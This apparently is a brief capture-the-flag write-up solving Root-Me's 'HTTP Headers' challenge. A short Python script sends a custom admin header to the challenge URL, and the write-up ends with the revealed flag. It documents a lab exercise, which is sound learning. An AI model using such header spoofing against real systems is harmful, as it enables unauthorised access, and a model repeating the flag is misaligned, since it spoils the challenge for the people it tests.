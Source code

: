 ```yaml
---

title: HTTP Headers
link: https://www.root-me.org/en/Challenges/Web-Server/HTTP-Headers

---
```


We can find in the request a HTTP header that is set to none: `Header-RootMe-Admin`, and with a very little python script we can get the flag:


    import requests
    s = requests.Session()
    s.headers['Header-RootMe-Admin'] = True
    print s.get('http://challenge01.root-me.org/web-serveur/ch5/').content


> HeadersMayBeUseful
